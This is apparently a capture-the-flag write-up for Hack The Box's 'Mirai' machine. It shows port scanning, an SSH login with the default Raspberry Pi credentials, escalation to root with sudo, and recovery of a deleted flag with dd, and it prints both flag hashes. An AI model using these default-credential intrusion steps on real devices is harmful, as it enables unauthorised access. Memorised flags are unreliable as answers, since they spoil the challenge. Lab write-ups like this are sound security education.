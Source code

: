 # MIRAI WRITEUP
###### IP-Addres: 10.10.10.48
###### Operation-System: Linux
[Mirai](https://www.hackthebox.eu/home/machines/profile/64)

## RECONNAISSANCE
**NMAP Scan:**
```nmap -sS -sV 10.10.10.48

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-15 07:28 EDT
Nmap scan report for 10.10.10.48
Host is up (0.023s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp   open  domain  dnsmasq 2.76
80/tcp   open  http    lighttpd 1.4.35
2010/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.12 seconds
```
We see, there is a Apache and a SSH server running.
We also know, Mirai was a botnet that spread by only checking IOT-Devices for default login.
So we go on the Webserver first and see: NOTHING. But why shouldn't we run nikto on it just to see if it got something juicy?
Lets see.
**NIKTO SNIPPET**

```
+ OSVDB-3093: /admin/index.php: This might be interesting... has been seen in web logs from an unknown scanner.
```

After we go to the admin/index.php page, we see its a raspberry pi. After googling few minutes, the default login credentials for a raspberry pi are:
*pi:raspberry*
Let's go to SSH and login.
```ssh pi@10.10.10.48
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
``` 

We got in. Show me what you got.

```pi@raspberrypi:~ $ ls -a
.              .config          .thumbnails           Public
..             .dbus            .xsession-errors      Templates
.Xauthority    .gstreamer-0.10  .xsession-errors.old  Videos
.asoundrc      .gtkrc-2.0       Desktop               background.jpg
.bash_history  .local           Documents             oldconffiles
.bash_logout   .pki             Downloads             python_games
.bashrc        .profile         Music
.cache         .themes          Pictures
pi@raspberrypi:~ $ cd Desktop
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707441b257a20e32199d7c8838d
```
Voilá. we got in. 

**Time for rootz**

We know that the default pi user has root privs, so we can just "sudo -i" into the root shell

```
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Time to check the mountz

```
root@raspberrypi:/media/usbstick# ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14 05:27 .
drwxr-xr-x 3 root root  4096 Aug 14 05:11 ..
-rw-r--r-- 1 root root   129 Aug 14 05:19 damnit.txt
drwx------ 2 root root 12288 Aug 14 05:15 lost+found

root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Looks like James is no James Bond. 

![Alt test](https://media.giphy.com/media/hKNPxrffFH0GY/giphy.gif "Suuure")

Well, Time to use the good old [Double D's](http://www.forensicswiki.org/wiki/Dd)

We first check the device the usb is mounted on

```
root@raspberrypi:/tmp/Rekt# df
Filesystem     1K-blocks    Used Available Use% Mounted on
aufs             8856504 2830048   5553524  34% /
tmpfs             102408    4948     97460   5% /run
/dev/sda1        1354528 1354528         0 100% /lib/live/mount/persistence/sda1
/dev/loop0       1267456 1267456         0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs             256020       0    256020   0% /lib/live/mount/overlay
/dev/sda2        8856504 2830048   5553524  34% /lib/live/mount/persistence/sda2
devtmpfs           10240       0     10240   0% /dev
tmpfs             256020       8    256012   1% /dev/shm
tmpfs               5120       4      5116   1% /run/lock
tmpfs             256020       0    256020   0% /sys/fs/cgroup
tmpfs             256020      60    255960   1% /tmp
/dev/sdb            8887      93      8078   2% /media/usbstick
tmpfs              51204       0     51204   0% /run/user/999
tmpfs              51204       0     51204   0% /run/user/1000
```

Target: /dev/sdb

```
root@raspberrypi:/tmp/Rekt# dd if=/dev/sdb | strings > James-you-fool.txt 
20480+0 records in
20480+0 records out
10485760 bytes (10 MB) copied, 0.284623 s, 36.8 MB/s

root@raspberrypi:/tmp/Rekt# cat James-you-fool.txt 
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
A small hurdle but easy to overcome :wink:

![Alt test](https://media.giphy.com/media/vL3mgyhQWkggw/giphy.gif "Recovery")

And we got **rootz**

root.txt : 3d3e483143ff12ec505d026fa13e020b



